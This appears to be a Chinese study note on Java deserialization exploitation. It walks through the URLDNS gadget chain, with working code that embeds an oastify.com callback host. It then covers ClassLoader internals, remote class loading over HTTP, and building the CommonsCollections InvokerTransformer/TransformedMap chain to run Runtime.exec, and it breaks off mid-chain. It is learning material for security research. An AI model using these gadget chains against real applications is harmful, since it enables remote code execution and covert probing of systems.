

## Java反序列化基础

### 思路

>    想要实现一个反序列攻击

-   **首先需要寻找到一个入口类，这个入口类的最好是jdk自带的而且具有以下条件**
    -   **==可序列化，重新了readObject方法，接受任意类作为参数==**
    -   **攻击类中最好可以包含其他类，什么类都行，包含Object类是最好的**
    -   **然后这个被包含的类必须重写它的readObject方法，然后再在它的readObject方法 里面调用一个常见的函数**
    -   比如：Object类中的equal、hasCode等函数，这个是每个类都有的
    -   **符合以上条件的类比如：hasMap类**

-   **调用链的问题**
    -   **这里的利用思路就是：根据同名函数、相同类型调用**
        -   例如：本来它想调用的函数是函数A，然后你让它调用了一个跟它名字一样都叫函数A，但代码体不一样的函数
        -   然后一直调用，最终去调用到执行命令或者写文件等执行类
    -   相同的类型指的就是：它可能继承了相同的父类，然后有相同的方法
-   **执行类**
    -   这就看你需要：rce、ssrf还是写文件

#### 案例

>   看一个`URLDNS`的反序列化案例，学习一下思路
>
>   这个`URLDNS`是`ysoserial`中的一条利用链，通常用于检测是否存在`Java`反序列化漏洞

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

/**
 * 功能：
 *
 * @author 长瀞同学
 * @ClassName Test
 * @description
 * @date 2023-05-07 17:39
 * @Version 1.0
 */
public class Test {

    public static void main(String[] args) throws Exception {

        HashMap<URL, Integer> hashMap = new HashMap<URL, Integer>();
		// 填写dns地址，可以使用网站：dnslog.cn或者dnslog.pm
        URL url = new URL("http://7em882jumjpjnq4ziw55yttnieo5cu.oastify.com");
        Class<? extends URL> urlClass = url.getClass();
		// 获取到hashcode属性
        Field hashCode = urlClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,123);
        hashMap.put(url,1);
		// 修改会hashcode的值，让其在反序列的时候触发dns解析
        hashCode.set(url,-1);
        serialize(hashMap);

    }


    /**
     * 反序列化
     * @return: java.lang.Object
     **/
    public static Object unserialize() throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("test.bin"));
        return ois.readObject();
    }

    /**
     * 序列化
     * @return: void
     **/
    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.bin"));
        oos.writeObject(o);
    }

}

```

>   这个反序列化链的入口类是`HashMap`类

>   然后就是在`map`的`key`位置上放置了一个`Url`类

>   然后因为执行`put`函数，进入`HashMap`内部看看`put`函数看看

```java
 public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
 }
```

>   可以看到还调用了`hash`函数，在进入

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

>   从这里可以看到调用了`hashcode`方法，而且这个方法也是每个类都有的
>
>   **而且这里的再次调用`hashcode`方法，因为这个key我们是存入URl类对象的**
>
>   **所以`key.hashCode()` == `URl.hashCode()`**

>   那么下一步就是去URl类中的`hashcode`方法

```java
public synchronized int hashCode() {
    	// hashcode 的默认值是为：-1
    	// 但是创建完url对象后会改变，然后执行后面的方法
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

>   然后这里又会调用一次`hashcode`函数，点进去在看看

```java
protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
        ......
}
```

>   这里可以看到`getHostAddress`它获取了host地址，**这里就会进行一次dns解析**，然后就达到判断是否存在反序列漏洞的要求

>   但是这一路下来可以发现，其实在`HashMap`执行`put`方法的时候就会进行一次dns解析，
>
>   **但要判断是否存在反序列化漏洞需要再反序列化的时候调用，**
>
>   需要才需要使用反射在进行`put`的时候修改掉`Url`内置`hashcode`的值，`put`完成后就修改回来

```java
	/* Our hash code.
     * @serial
     */
    private int hashCode = -1;
    
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

>   然后再进行反序列化的时候触发

```java
public static Object unserialize() throws Exception {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream("test.bin"));
    return ois.readObject();
}
```

#### 反序列化应用

1.   反射中的invoke方法，这个相对于只能调用同名函数会更加灵活，它可以调用同名函数之外的函数
2.   通过Class类创建对象，然后去引入不能序列化的类，比如：`Runtime.class`

#### 动态代理反序列化应用

1.   invoke方法：会有函数调用的时候自动调用
     1.   调用任意函数拼接两条链
2.   readObject方法：是在反序列化的时候自动调用


## 类加载器

-   在创建对象的时候，类执行构造函数的顺序为：**静态代码块、构造代码块、无参或有参**
-   **访问类中的静态方法和静态变量==都会调用静态代码块==**
-   使用`student.class`进行类加载，并不会触发静态代码块，因为还没有进行初始化
-   总结：
    -   **静态代码块在初始化的时候调用**
    -   **其他的在实例化的时候调用**


-   `class.forName`：在加载类的时候会调用静态代码块

    -   ```java
        Class<?> student = Class.forName("Student");
        // 默认会进行初始化
        ```

    -   看一下`forName`函数内部，可以看到它会去掉用一个`forName0`的方法

        -   ```java
            @CallerSensitive
            public static Class<?> forName(String className)
                throws ClassNotFoundException {
                Class<?> caller = Reflection.getCallerClass();
                return forName0(className, true, ClassLoader.getClassLoader(caller), caller);
            }
            // 看完forName0 方法后回过头来看这里，可以发现在forName方法里让其进行了初始化
            ```

        -   ```java
             private static native Class<?> forName0(String name, boolean initialize,
                                                        ClassLoader loader,
                                                        Class<?> caller)
                    throws ClassNotFoundException;
            // 这里看到forName0 方法是一个native方法，而且这里接受四个参数
            // 根据参数内容可以发现这可以设置是否进行初始化：initialize
            // 然后还需要传入一个 ClassLoader 对象
            ```

        -   **然后执行以下代码就不会进行初始化**

        -   ```java
            ClassLoader cl = ClassLoader.getSystemClassLoader();
            Class<?> student = Class.forName("Student",false,cl);
            // 想要其进行初始只需要new一下
            student.newInstance();
            ```

-   **从以上代码可以看出，类进行加载的时候还需要传入一个ClassLoder对象，这就说明这个对象可能是一个关键**

-   **看看ClassLoader类会输出和内部有什么**

    -   ```java
        ClassLoader cl = ClassLoader.getSystemClassLoader();
        System.out.println(cl);
        // jdk10输出：jdk.internal.loader.ClassLoaders$AppClassLoader@4629104a
        // jdk1.8输出：sun.misc.Launcher$AppClassLoader@18b4aac2
        // 然后就涉及到jvm的类加载机制，内置有三种加载器。
        //	系统类加载器	会加载那些lang包啊等等包
        // 	扩展类加载器	主要加载一些扩展包
        //  应用程序加载器	最常用的
        
        // 我们也是直接可以使用类加载直接加载对象,比如加载一个Student对象
        Class<?> student = cl.loadClass("Student");	// 使用这个默认不进行初始化，不会执行静态代码块
        student.newInstance();	
        ```

        

### 类的加载流程

-   通过ClassLoader去加载任意.class类，这样相比于hashcode就有更大的攻击面

**==类加载的流程==**

-   **通过对`Class<?> aClass = cl.loadClass("Student");`**打个断点，然后跳到`ClassLoader`内部

    -   ```java
        public Class<?> loadClass(String name) throws ClassNotFoundException {
            return loadClass(name, false);
        }
        ```

        **然后跳到`Launcher`类中**

    -   ```java
        public Class<?> loadClass(String var1, boolean var2) throws ClassNotFoundException {
            // 走了些安全检查代码后
            .....
            // 调用了他父类的loadClass
            return super.loadClass(var1, var2);
        }
        ```

        **然后回到了`ClassLoader`内部**

    -   ```java
        protected Class<?> loadClass(String name, boolean resolve)
            throws ClassNotFoundException
        {
            synchronized (getClassLoadingLock(name)) {
                // 这里主要是看这个是否加载过，但很明显是没有加载过的
                Class<?> c = findLoadedClass(name);
                if (c == null) {
                        long t0 = System.nanoTime();
                        try {
                            // 这判断是否有父加载器，有父类就使用父类的加载器
                            // 这里的加载器是有的，为 扩展类加载器
                            if (parent != null) {
                                c = parent.loadClass(name, false);
                            // 如果没有父加载器，那就会使用系统类加载器去加载
                            } else {
                                // 这样还无法加载就会抛异常
                                c = findBootstrapClassOrNull(name);
                            }
            }
        }
        ```

        **然后进入`parent.loadClass(name, false);`里面他又会回到这个方法开头，然后再走一遍**

    -   ```java
        synchronized (getClassLoadingLock(name)) {
            // First, check if the class has already been loaded
            Class<?> c = findLoadedClass(name);
            if (c == null) {
                long t0 = System.nanoTime();
                try {
                    // 这才再走道这里parent就是为null了，因为已经到系统类加载器，上面已经没东西了
                    if (parent != null) {
                        c = parent.loadClass(name, false);
                    } else {
                        // 然后就会去这里寻找，结果是还是没有找到
                        // 因为我们的Student类就是一个普通的类，它不会使用系统类加载器去加载
                        c = findBootstrapClassOrNull(name);
                    }
                }
            }
        }
        ```

        **然后再走到后面的`findClass`**

    -   ```java
        if (c == null) {
            // If still not found, then invoke findClass in order
            // to find the class.
            long t1 = System.nanoTime();
            c = findClass(name);
        
            // this is the defining class loader; record the stats
            sun.misc.PerfCounter.getParentDelegationTime().addTime(t1 - t0);
            sun.misc.PerfCounter.getFindClassTime().addElapsedTimeFrom(t1);
            sun.misc.PerfCounter.getFindClasses().increment();
        }
        ```

        **再看`findClass`函数，这里什么都没有，而且还是`protected`修饰的，使所以需要子类重写，然后会跑到子类里面去**

    -   ```java
        protected Class<?> findClass(String name) throws ClassNotFoundException {
            throw new ClassNotFoundException(name);
        }
        ```

        **然后根进去可以发现走到了`RULClassLoader`类里面，为什么会走到这里来呢，因为`launcher`类中的`ExtClassLoader`和`appClassLoader`里面都没有这个`findClass`方法**

    -   ```java
        // appClassLoader
        static class AppClassLoader extends URLClassLoader {}
        
        // ExtClassLoader
        static class ExtClassLoader extends URLClassLoader {}
        
        // 因为这个两个类的直接父类就是URLClassLoader，所以他就会跑到URLClassLoader类中
        // 然后执行其中的findClass方法
        
        protected Class<?> findClass(final String name)
            throws ClassNotFoundException
        {
            final Class<?> result;
            try {
                result = AccessController.doPrivileged()
            }
        }
        
        // 然后会因为当前是extClassLoader，肯定是加载不到Student类，所以会全是null
        // 怎么看出是extClassLoader，因为当前的this指向它
        ```

        **然后因为一直是没有找到，就会退来了，退到了`ClassLoader`，然后以`appClassLoader`再次调用`findClass`**

    -   ```java
        if (c == null) {
            // If still not found, then invoke findClass in order
            // to find the class.
            long t1 = System.nanoTime();
            c = findClass(name);
        
            // this is the defining class loader; record the stats
            sun.misc.PerfCounter.getParentDelegationTime().addTime(t1 - t0);
            sun.misc.PerfCounter.getFindClassTime().addElapsedTimeFrom(t1);
            sun.misc.PerfCounter.getFindClasses().increment();
        }
        ```

        **然后再次走到`URLClassLoader`里面，这就不为空了，这次就找到了**

    -   ```java
        try {
            result = AccessController.doPrivileged(
                new PrivilegedExceptionAction<Class<?>>() {
                    public Class<?> run() throws ClassNotFoundException {
                        // 走到这里就可以在旁边看到 name = Student
                        String path = name.replace('.', '/').concat(".class");
                        // 这样就会调用URLClassPath去找Student，因为appClassLoader是在当前目录下去找的，那很明白是会找的
                        Resource res = ucp.getResource(path, false);
                        if (res != null) {
                            try {
                                // 然后就是在这里完成了类的加载
                                return defineClass(name, res);
                            } catch (IOException e) {
                                throw new ClassNotFoundException(name, e);
                            }
                        } else {
                            return null;
                        }
                    }
                }, acc);
        } 
        ```

        **跟进`defineClass`方法，它会来到`URLClassLoader`中的`defineClass`方法**
    
    -   ```java
        private Class<?> defineClass(String name, Resource res) throws IOException {
            long t0 = System.nanoTime();
            int i = name.lastIndexOf('.');
            URL url = res.getCodeSourceURL();
            if (i != -1) {
                String pkgname = name.substring(0, i);
                // Check if package already loaded.
                Manifest man = res.getManifest();
                definePackageInternal(pkgname, man, url);
            }
            // Now read the class bytes and define the class
            java.nio.ByteBuffer bb = res.getByteBuffer();
            if (bb != null) {
                // Use (direct) ByteBuffer:
                CodeSigner[] signers = res.getCodeSigners();
                CodeSource cs = new CodeSource(url, signers);
                sun.misc.PerfCounter.getReadClassBytesTime().addElapsedTimeFrom(t0);
                return defineClass(name, bb, cs);
            } else {
                byte[] b = res.getBytes();
                // must read certificates AFTER reading bytes.
                CodeSigner[] signers = res.getCodeSigners();
                CodeSource cs = new CodeSource(url, signers);
                sun.misc.PerfCounter.getReadClassBytesTime().addElapsedTimeFrom(t0);
               	// 前面都做一些安全判断，先不管，最终会调用这个defindClass
                return defineClass(name, b, 0, b.length, cs);
            }
        }
        
        ```
    
    -   **然后就会来到`URLClassLoader`的父类：`SecureClassLoader`**
    
    -   ```java
        protected final Class<?> defineClass(String name,
                                             byte[] b, int off, int len,
                                             CodeSource cs)
        {
            // 这是调用了getProtectionDomain方法赋了个值然后继续调用了defineClass方法
            return defineClass(name, b, off, len, getProtectionDomain(cs));
        }
        ```
    
    -   **然后它又回到了`ClassLoader`里面**
    
    -   ```java
        /**
        	这里就是最后的调用了
        	其中：
        	String name, 就是加载的类名
        	byte[] b	就是这个类的class字节码
        	int off,	这个是起始位置
        	int len		就是长度
        	protectionDomain	就是一个保护域，可以不管
        */
        protected final Class<?> defineClass(String name, byte[] b, int off, int len,
                                             ProtectionDomain protectionDomain)
            throws ClassFormatError
        {
            protectionDomain = preDefineClass(name, protectionDomain);
            String source = defineClassSourceLocation(protectionDomain);
            // 最终就是在这里调用了一个defineClass1，完成了整个类的加载，因为defineClass1是个native方法
            Class<?> c = defineClass1(name, b, off, len, protectionDomain, source);
            postDefineClass(c, protectionDomain);
            // 到这里就获取到了Class
            return c;
        }
        
        // 在当前类往下翻就可以看到
        private native Class<?> defineClass1(String name, byte[] b, int off, int len,
                                                 ProtectionDomain pd, String source);
        ```
    
        >   到这里，后面就是一直返回结果了然后赋值了

​        


#### 总执行链

CLassLoader.loadClass -> Launcher.loadClass -> ClassLoader.loadClass -> RULClassLoader.findClass -> ClassLoader.loadClass -> URLClassLoader -> URLClassLoader.defineClass -> SecureClassLoader.defineClass -> ClassLoader.defineClass -> defineClass1加载类

defindClass（从字节码加载类）


#### 继承关系

**appClassLoader的继承关系**（idea选中类名然后按：Ctrl + H）


**ExtClassLoader**


### 加载任意案例

==使用URLClassLoader加载任意类==

-   首先new一个URLCLassLoader对象，然后传入参数

```java
public static void main(String[] args) throws Exception{
    // 这行代码等于是设置了加载类的路径
    URLClassLoader loader = new URLClassLoader(new URL[]{new URL("file:///E:\\class\\")});
    // 加载路径中的名为Hello的class文件
    Class<?> aClass = loader.loadClass("Hello");
    aClass.newInstance();
}
// 结果就会输出Hello中静态代码块中的代码
// 然后Hello.class中静态代码内容改为：Runtime.getRuntime().exec("calc");
// 那么它实例化的时候就会弹计算器了
```

-   然后就是URL也是可以使用http协议去拿文件

```java
URLClassLoader loader = new URLClassLoader(new URL[]{new URL("http://localhost:9999")});
// 在CLass文件目录cmd运行：python -m http.server 9999 
// 就可以开放一个目录了

// 同养还有另外两种方式
URLClassLoader loader = new URLClassLoader(new URL[]{new URL("jar:file:///E:\\class\\Hello.jar/")});
URLClassLoader loader = new URLClassLoader(new URL[]{new URL("jar:http://localhost:9999/Hello.jar/")});
```

-   使用defineClass

```java
public static void main(String[] args) throws Exception{ 
    
    ClassLoader loader = ClassLoader.getSystemClassLoader();
	// 通过反射调用defineClass,因为defineClass是私有的
    Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);

    defineClass.setAccessible(true);
    // 拿class文件
    byte[] bytes = Files.readAllBytes(Paths.get("E:\\class\\Hello.class"));
    // 进行加载
    Class hello = (Class) defineClass.invoke(loader, "Hello", bytes, 0, bytes.length);
    hello.newInstance();
}
```

-   UNsafe中的defineClass加载任意类

```

```


## CommonsCollections

**它是什么？**

>   CommonsCollections是Apache Commons项目中的一个子项目，**提供了一系列的Java集合类和算法**。
>
>   这些集合类和算法旨在扩展Java标准库中的集合类和算法，并提供了更多的功能和灵活性。
>
>   其中，**最广为人知的是CommonsCollections中的一些可序列化的恶意类**，被用于攻击基于Java反序列化的应用程序。
>
>   这些恶意类能够在反序列化时触发攻击，从而导致应用程序被攻击者控制。
>
>   因此，CommonsCollections也被称为Java反序列化漏洞的一个重要组成部分。

### Collections的包结构和简单介绍，

如果你想了解更多的各个包下的接口和实现，请参考[Apache Commons Collections 3.2.2 API文档](http://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/index.html)。

-   `org.apache.commons.collections` – CommonsCollections自定义的一组公用的接口和工具类
-   `org.apache.commons.collections.bag` – 实现Bag接口的一组类
-   `org.apache.commons.collections.bidimap` – 实现BidiMap系列接口的一组类
-   `org.apache.commons.collections.buffer` – 实现Buffer接口的一组类
-   `org.apache.commons.collections.collection` –实现java.util.Collection接口的一组类
-   `org.apache.commons.collections.comparators`– 实现java.util.Comparator接口的一组类
-   `org.apache.commons.collections.functors` –Commons Collections自定义的一组功能类
-   `org.apache.commons.collections.iterators` – 实现java.util.Iterator接口的一组类
-   `org.apache.commons.collections.keyvalue` – 实现集合和键/值映射相关的一组类
-   `org.apache.commons.collections.list` – 实现java.util.List接口的一组类
-   `org.apache.commons.collections.map` – 实现Map系列接口的一组类
-   `org.apache.commons.collections.set` – 实现Set系列接口的一组

### 第一条学习思路链子

1.   首先链子的开始位置是`org.apache.commons.collections.Transformer`这个接口，为什么说要从这开始？这道理跟自己审0day一样

2.   那么这个为什么会存在反序列漏洞呢，这只是一个接口？

     ```xml
     <!--
     	这是一个接口就可以想到存在序列化的肯定是它的子类，
     	通过idea创建一个Maven项目，然后将`commons-collections`依赖导入
     -->
     <dependency>
         <groupId>commons-collections</groupId>
         <artifactId>commons-collections</artifactId>
         <version>3.2.1</version>
     </dependency>
     ```

3.   然后我们简单看一下这个接口

     ```java
     public interface Transformer {
     
         /**
     		这个接口内部也就只有一个transform方法，然后它的实现类就都会实现这个方法
          */
         public Object transform(Object input);
     }
     ```

4.   ==思路就是==：通过快捷键`Ctrl + alt + B `，查看一下当前接口的所有实现类，**然后在看看这些实现类中，哪个类的`transformer`方法有我们可以利用 的地方，然后就可以将其作为咋们最终执行命令的地方**

     

5.   这就可以自己翻翻，这里头每个子类的`transformer`都干了些啥，比如我这里有代表性的翻个可能用得到和用不到的类

     ```java
     public class CloneTransformer implements Transformer, Serializable {
         /**
         	比如这个CloneTransformer类的transform方法
         	它会先判空然后会调用一个PrototypeFactory.getInstance(input).create();
         	咋们可以理解为：使用工厂创建了一个input的对象的实例的副本
     		这一看好像不能直接调用啥函数，然后在看看别的类
         */
         public Object transform(Object input) {
             if (input == null) {
                 return null;
             }
             return PrototypeFactory.getInstance(input).create();
         }
     }
     ```

     ```java
     public class NOPTransformer implements Transformer, Serializable {
         /**
         	在看看这个类中的transform方法，接受一个input然后又return回去
         	也不知道干啥
         	然后咋们再看这些类的时候就是分辩和寻找出能利用到的类
         */
         public Object transform(Object input) {
             return input;
         }
     }
     ```

     ```java
     public class ConstantTransformer implements Transformer, Serializable {
         /**
         	在看看这个类中的transform方法，它接受一个object，然后return一个iConstant，这个iConstant还是个常量
         */
     	public Object transform(Object input) {
             return iConstant;
         }
         
         /**
         	然后在看看它的构造函数，可以发现这个iConstant是在这里赋值的
         	而且这个iConstant的参数我们是可以控制的
         	那么这个类就可能在我们进行反序列化的时候能调用，可以留个印象，到时候写调用链的时候看看是否用得上
         */
         public ConstantTransformer(Object constantToReturn) {
             super();
             iConstant = constantToReturn;
         }
     }
     ```

     ```java
     
     public class ChainedTransformer implements Transformer, Serializable {
         /**
         	比如这个ChainedTransformer类中的transform方法，
         	这个方法接收一个object类，然后对iTransformers进行遍历执行transform方法
         	将传入的object作为transform的入参
         	那么这里就可以看看这个iTransformers的值我们是否可以控制
         */
         public Object transform(Object object) {
             for (int i = 0; i < iTransformers.length; i++) {
                 object = iTransformers[i].transform(object);
             }
             return object;
         }
         
         // 往上找我们可以发现这个iTransformers是个常量
         private final Transformer[] iTransformers;
         
         // 然后在看看这个ChainedTransformer类的构造方法
         // 可以看到这个iTransformers的值的内容咋们new的时候传入进来，是可以控制的
         public ChainedTransformer(Transformer[] transformers) {
             super();
             iTransformers = transformers;
         }
     }
     ```

     ```java
     public class InvokerTransformer implements Transformer, Serializable {
         /**
         	在看看InvokerTransformer类，这个类中的transform方法干了什么
         	读一下可以发现，它首先是判空，然后获取了传入参数的class，然后在根据class去获取方法，然后在执行获取的方法
         	而且这个获取的方法是两个变量，然后进行invoke的时候也有一个变量，那么这里很可能存在一个任意方法调用了，
         	那么接下来我们可以去看看这个三个参数是不是可控的
         */
         public Object transform(Object input) {
             if (input == null) {
                 return null;
             }
             try {
                 Class cls = input.getClass();
                 Method method = cls.getMethod(iMethodName, iParamTypes);
                 return method.invoke(input, iArgs);
                     
             } catch (NoSuchMethodException ex) {
                 throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
             } catch (IllegalAccessException ex) {
                 throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
             } catch (InvocationTargetException ex) {
                 throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
             }
         }
         
         /** 往上翻可以发现这三个参数都是常量 */
         private final String iMethodName;
         private final Class[] iParamTypes;
         private final Object[] iArgs;
         
         // 然后看看这个类的构造函数
         // 然后可以发现有一个可以传入三个参数的构成方法，而且那个三个参数的赋值操作也是在这里进行的
         // 这么说明这三个参数咋们是可以控制的
     	// 这个类是可以作为咋们反序列化最终执行命令的地方，因为我们可以通过反射获取一个可以执行命令类的class
         // 然后在去获取这个class执行命令的方法，然后在传入我们需要执行命令的值
         public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
             super();
             iMethodName = methodName;
             iParamTypes = paramTypes;
             iArgs = args;
         }
         
         /* 
         	举个例子：咋们可以使用java.lang包下Runtime去执行命令：Runtime.getRuntime().exec("calc");
         	
         	实际Runtime进行反射调用弹计算器是这么写的
         		Runtime runtime = Runtime.getRuntime();
                 Class<Runtime> runtimeClass = Runtime.class;
                 Method exec = runtimeClass.getDeclaredMethod("exec", String.class);
                 exec.setAccessible(true);
                 exec.invoke(runtime,"calc");
                 
                 // 这里可能比较疑惑的就是这个Runtime.getRuntime();干了什么
                	// 其实他就是new Runtime()对象，然后调用Runtime.getRuntime();方法可以返回这个Runtime对象
                	// 因为进行invoke需要一个方法所属的对象
         	
         	放到上面中，因为他接受一个object的参数，那么我们可以将Runtime放进来
         	然后将iMethodName和iParamTypes赋值为：exec,参数类型为String.class
         	然后将iArgs赋值为：calc
         	这样就最终达到反序列化的目的
         */
     }
     ```

     

6.   那么这里就可以打开idea进行一下尝试，去测试一下这个`InvokerTransformer`类中的`transform`是否可以执行命令

     ```java
     public static void main(String[] args) throws Exception {
         // 获取一个Runtime对象
         Runtime runtime = Runtime.getRuntime();
         /**
         	这里可能就会对参数有的疑惑,我们可以对照着InvokerTransformer的构造函数看看
         	public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
         	首先，它接受一个方法名称，然后我们是想要调用exec方法，所以填入 exec 这个好理解
         	然后，第二个参数是Class的数组，咋们就可以理解为这里是需要填写这个exec方法传入参数的类型，
         		按照你要传入参数的类型依次写相对于的数据类型的class，这也是固定写法，还没明白就该去学学反射基础
         	然后，第三个参数就是值了，也就exec方法执行命令的值
         	最后放入一个方法所属的对象，然后就能触发咋们的命令
         		
         */
         new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
     }
     ```

7.   到这里咋们已经验证了执行命令这条路已经可以通了，也可以做出结论：`InvokerTransformer.transform`**方法就是一个危险方法**

8.   然后我现在已经找到了链子的尾部，我们链子的头部肯定要是一个`readObject`方法，这个方法会进行反序列化，

     -   **那么接下来的思路就是找那个readObject方法调用了transform方法？实则不然，如果有这么简单，那java反序列化不是特别好学**

     -   一般情况下反序列链子是不可能这么短的，如果这么短也没啥研究价值

9.   **所有接下来的思路就是：==找一下哪个类中的哪个方法调用了transform方法，而且还得找不同名的方法，因为找同名的方法咋们也调用不到readObject方法==**

10.   **这个时候使用idea，进入到`InvokerTransformer.transform`方法这里，对照方法名右键点击`find usages`，这样就可以看到所有的类中哪个类调用了transform方法**

      -   它会出现一窗口，然后它的寻找结果会分为三类，

          -   本类内哪里调用transform方法

          -   同一个父类中的哪些子类中调用了transform方法

          -   没有关系地方调用了transform

11.   然后因为我们需要找不同名的，所以可以直接去第三类里面翻，**哪个类中的哪个方法可以作为利用点，或者说是跳板，让我们能够调用到`readObject`，或者说离调用`readObject`方法更进一步**

      -   这个快速寻找到可利用类的方式，那就是多看，都是经验的累积

12.   那么结果就是最终我们找到`org.apache.commons.collections.map`包下的`TransformedMap`类，它这里有三个方法调用了transform方法，那么咋们就可以看看这里

      

      ```java
      public class TransformedMap extends AbstractInputCheckedMapDecorator implements Serializable {
          /**
          	首先看到这个方法，这是一个受保护的方法，本类和子类能调用
          	然后它的方法体内部使用valueTransformer去调用了transform
          	那么我们现在就需要去看，checkSetValue在本类中是否有调用、看看valueTransformer属性是否可控
          	寻找之后checkSetValue在本类中是没有调用的，所以接下来去看看构造函数
          */
          protected Object checkSetValue(Object value) {
              return valueTransformer.transform(value);
          }
          
          /**
          	看看它的构造方法，
          	简单理解就是：
          		需要传入一个map，然后需要传入一个key和value，
          		然后将key和value赋值给当前类属性，然后对其进行一些操作
          	因为这个也是个保护方法，咋们还得去找找哪里有调用这个构造方法
          */
          protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
              super(map);
              this.keyTransformer = keyTransformer;
              this.valueTransformer = valueTransformer;
          }
          
          /**
          	在这里是找到了一个decorate方法对上面那个构造方法进行了调用，而且这还是一个静态方法
          	这个函数内部就是new了一个TransformedMap，然后把传入的三个参数放进来
          	这里就可以是一个尝试点，因为静态方法都不需要我们去new
          */
          public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
              return new TransformedMap(map, keyTransformer, valueTransformer);
          }
      }
      ```

13.   **然后咋们现在是可以通过`transformedMap.decorate`方法可以调用到构造方法，然后通过构造方法可以给`valueTransformer`赋值，那么现在的问题就是需要去寻找一下哪里调用了`checkSetValue`**

14.   同用使用右键选择find usages去看一下哪里调用了这个方法，然后可以发现也就只有一个地方调用了，

      ```java
      // 在AbstractInputCheckedMapDecorator类中的内部类中有调用,而且这是一个抽象类
      // 观察一下transformedMap是可以发现它是AbstractInputCheckedMapDecorator的子类
      static class MapEntry extends AbstractMapEntryDecorator {
      
          /** The parent map */
          private final AbstractInputCheckedMapDecorator parent;
      
          protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
              super(entry);
              this.parent = parent;
          }
      
          /**
          	可以看到在这个setValue方法中有调用checkSetValue，但是这个setValue方法也不能达到反序列
          	然后咋们下一步就是看这个setValue又再哪里有调用
          */
          public Object setValue(Object value) {
              value = parent.checkSetValue(value);
              return entry.setValue(value);
          }
      }
      ```

15.   **同样方法继续进行找一下，然后可以发现有好多地方调用了这个方法，然后如果一个一个去看就会显得很花时间，那么这么减少这个选择范围呢？**

16.   ==答案就是看代码，理解一下这个MapEntry内部类它干了什么事==

      ```java
      /**
      	这个思路，首先咋们可以先看这个内部类名称，MapEntry，咋们可以想到Map遍历可以用到这个
      	可能太久没见到，写个案例：
      */
      public static void main(String[] args) {
          Map<String, String> map = new HashMap<>();
          map.put("key1", "value1");
          map.put("key2", "value2");
          map.put("key3", "value3");
      
          // 使用Map.Entry遍历Map
          // map.entrySet() 它返回一个包含HashMap中所有key-value对的Set集合,
          // 		其中每个元素都是一个Map.Entry对象
          for (Map.Entry<String, String> entry : map.entrySet()) {
              // entry 就等于一个键值对
              String key = entry.getKey();
              String value = entry.getValue();
              
              System.out.println("Key: " + key + ", Value: " + value);
          }
      }
      /**
      	从上面这个案例，就可能对MapEntry有印象了，而且其实在遍历的时候，咋们也是可以调用entry.setValue("");的
      	所以咋们的这个该怎么调用就很明显了
      */
      ```

17.   **现在在完善一下调用链，要不然太长了不好理解**

      ```java
      // 原本的调用链
      public static void main(String[] args) throws Exception {
          // 获取一个Runtime对象
          Runtime runtime = Runtime.getRuntime();
      
          new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
      }
      
      // 新增调用
      public static void main(String[] args) throws Exception {
          Runtime runtime = Runtime.getRuntime();
          
          // 调用链已经不止步于此了，所有得先把他的值存一下，而且也不能直接调用transform传入Runtime了
          InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
          
      	// 创建一个Map对象，用于作为TransformedMap.decorate()方法的参数
          HashMap<Object, Object> hashMap = new HashMap<>();
          // 随便传两个值让其不为空
          hashMap.put("key","value");
          
          // 这里就是为decorate方法中的key和value赋值，然后因为checkSetValue方法内部只用到了value，所有key的值就给null
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap,null,exec);
          
      	/**
